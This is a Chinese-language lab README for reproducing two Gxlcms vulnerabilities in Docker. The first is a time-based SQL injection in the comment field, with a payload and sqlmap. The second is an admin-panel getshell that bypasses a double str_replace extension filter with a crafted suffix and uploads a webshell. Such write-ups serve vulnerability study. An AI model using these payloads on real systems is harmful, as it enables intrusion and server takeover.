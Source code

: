 ## 环境编译
```
docker-compose build
docker-compose up -d
```
## 漏洞介绍

### 前台SQL注入漏洞

漏洞的触发点在作品的评论处
![](luffy1.jpg) 

利用burosuite抓包扫描
![](luffy2.png)

攻击的payload是
`
'%2b(select*from(select(sleep(20)))a)%2b'
`

利用sqlmap即可跑出结果
![](luffy3.png)


### 后台getshell

后台地址http://127.0.0.1:8001/?s=admin， 后台账户 admin:admi
fuzz过程 输入php  被过滤成空  所以 phphpp  提交之后就会变成php

跟踪到\Lib\Admin\Action\AdminAction.class.php
`
$config["upload_class"] = trim(str_replace(array("php", "asp", "apsx", "txt", "asax", "ascx", "cdx", "cer", "cgi", "jsp", "html", "html", "htm", ",,"), "", strtolower($config["upload_class"])), ",");
`

`
$upload_class = str_replace(array("php", "asp", "apsx", "txt", "asax", "ascx", "cdx", "cer", "cgi", "jsp", "html", "html", "htm", ",,"), "", strtolower(C("upload_class")));
        var_dump(strtolower(C("upload_class")));
`
附件配置处的地方替换一次后写进config.php  这里从config.php中读出来的时候再替换一次  所以在附件设置的地方就该未雨绸缪构造一个两次替换后才是php的后缀 

这里用的是ptxtptxthtxtptxthtxtp

然后上传

![](luffy5.png)

获得shell
![](luffy7.png)


[链接一](http://www.bubuko.com/infodetail-2246395.html)
[链接二](https://www.evilys.top/2017/08/22/%E7%AE%80%E5%8D%95%E5%AE%A1%E8%AE%A1Gxlcms/)
[链接三](http://foreversong.cn/archives/736)



